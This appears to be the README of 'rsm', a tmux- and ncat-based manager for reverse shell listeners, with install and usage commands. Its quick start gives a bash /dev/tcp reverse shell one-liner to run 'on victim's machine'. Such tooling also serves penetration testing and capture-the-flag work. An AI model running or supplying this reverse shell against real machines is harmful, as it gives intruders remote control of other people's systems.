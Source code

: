 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Quick Start

Listening on a port

```shell
git clone https://github.com/djosix/rsm.git
cd rsm

./rsm 11111
# You will attach to a tmux session called 'rsm-11111',
# where 11111 is your listening port.
```

On victim's machine, launch a reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/11111 0<&1'
# Once connected to the listening port,
# the script will create a window in our tmux session.
# Just switch to that window and interact with the client.
```

Attaching to the last rsm session

```shell
./rsm attach
```

Stop the server and cleanup

```shell
./rsm stop
# Stop all rsm listeners
```

[![asciicast](https://asciinema.org/a/n5KdNGnDYunp5QFzpZh7OgHsg.png)](https://asciinema.org/a/n5KdNGnDYunp5QFzpZh7OgHsg)

## Install

```shell
git clone --depth 1 https://github.com/djosix/rsm.git ~/.rsm
# Then add $HOME/.rsm to your PATH
```

## Usage

```shell
$ rsm help
Usage:

    rsm PORT            Start a reverse shell listener on PORT
    rsm -d PORT         Start a detatched reverse shell listener on PORT
    rsm list            List active rsm listeners
    rsm info PORT       Show details of listener on PORT
    rsm info            Show details of all rsm listeners
    rsm stop PORT       Stop a rsm listener on PORT
    rsm stop            Stop all rsm listeners
    rsm attach PORT     Attach to a rsm session listening on PORT
    rsm attach          Attach to the last rsm session
    rsm clean PORT      Clean sockets for PORT
    rsm clean           Clean all sockets
    rsm help            Show this help message
```
